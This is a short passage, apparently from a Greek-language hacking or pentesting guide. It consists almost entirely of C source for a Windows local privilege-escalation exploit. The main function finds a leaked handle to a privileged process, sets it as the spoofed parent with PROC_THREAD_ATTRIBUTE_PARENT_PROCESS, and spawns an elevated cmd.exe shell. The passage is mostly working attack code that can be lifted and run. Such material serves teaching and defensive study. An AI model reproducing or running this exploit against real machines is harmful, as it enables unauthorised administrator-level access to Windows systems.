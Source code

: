 ```c
free(objectTypeInfo);
free(objectNameInfo);
break;
}
else
continue;

free(objectTypeInfo);
free(objectNameInfo);
}

return hProc;
}


int main(int argc, char **argv) {

HANDLE hProc = NULL;
STARTUPINFOEXA si;
PROCESS_INFORMATION pi;
int pid = 0;
SIZE_T size;
BOOL ret;

Sleep(20000);
// find leaked process handle
hProc = GetVulnProcHandle();

if ( hProc != NULL) {

// Adjust proess attributes with PROC_THREAD_ATTRIBUTE_PARENT_PROCESS
ZeroMemory(&si, sizeof(STARTUPINFOEXA));

InitializeProcThreadAttributeList(NULL, 1, 0, &size);
si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST) HeapAlloc( GetProcessHeap(), 0, size );

InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hProc, sizeof(HANDLE), NULL, NULL);

si.StartupInfo.cb = sizeof(STARTUPINFOEXA);

// Spawn elevated cmd process
ret = CreateProcessA( "C:\\Windows\\system32\\cmd.exe", NULL, NULL, NULL, TRUE,
EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE, NULL, NULL, (LPSTARTUPINFOA)(&si), &pi );

if (ret == FALSE) {
printf("[!] Error spawning new process: [%d]\n", GetLastError());
return -1;
}
}

Sleep(20000);
return 0;
}
```
## Άλλα εργαλεία και παραδείγματα
